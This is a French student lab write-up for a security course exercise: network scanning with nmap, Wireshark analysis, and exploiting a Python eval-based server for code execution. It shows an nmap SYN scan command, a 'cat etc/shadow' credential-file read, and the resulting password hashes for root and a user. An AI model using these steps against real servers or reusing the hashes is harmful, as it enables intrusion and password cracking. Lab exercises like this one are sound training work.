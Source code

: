 # TP5 SECU : Exploit, pwn, fix

🌞 Déterminer

- à quelle IP ce client essaie de se co quand on le lance
- à quel port il essaie de se co sur cette IP
```
Internet Protocol Version 4, Src: 10.33.74.119, Dst: 10.1.1.2
Destination Port: 13337
```

🌞 Scanner le réseau

- trouvez une ou plusieurs machines qui héberge une app sur ce port
- votre scan nmap doit être le plus discret possible : il ne teste que ce port là, rien d'autres
- testez d'abord dans un réseau avec des VMs


```
sudo nmap -sS -p 13337 10.33.64.0/20 > Bureau/reseau/scan.txt 

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)
```

🌞 Connectez-vous au serveur

- éditer le code du client pour qu'il se connecte à la bonne IP et au bon port
- utilisez l'application !
- vous devez déterminer, si c'est pas déjà fait, à quoi sert l'application

```
Pour retrouver l'ip de connexion au serveur nous cherchons sur wireshark l'adresse mac ayant le port 13337 ouvert avec cette commande : eth.dst == E4-B3-18-48-36-68
IP trouvée : 10.33.66.78
```

```
L'application sert à réaliser des opérations arithmétique.
```

## 2. Exploit

🌞 Injecter du code serveur

- démerdez-vous pour arriver à faire exécuter du code arbitraire au serveur
- tu sais comment te co au serveur, et tu sais que ce que tu lui envoies, il l'évalue
- vous pouvez normalement avoir une injection de code :

- exécuter du code Python
et normalement, exécuter des  
- commandes shell depuis cette injection Python

cat etc/shadow
root:$6$atP4CieUTrEFXHsk$XKnowYr3fH1wS/ROSrPilmXL5mkUZPK0xlZ3KN2v0FZ2T/ndSxTzqjeqsWuRKZl5nFlXuFtdQvhQnLLm/XFLB1::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
noah:$6$sdPZ9tJBSUK6uKXY$LmZemdiomYbtMpg2IMzhIFedU3abEU5PEzHhpV/TRTtTDY./bO3HBHmzqhA2E49joYzkF6Lcq.glzS.QeApHx1::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20020::::::
sh-5.1# 
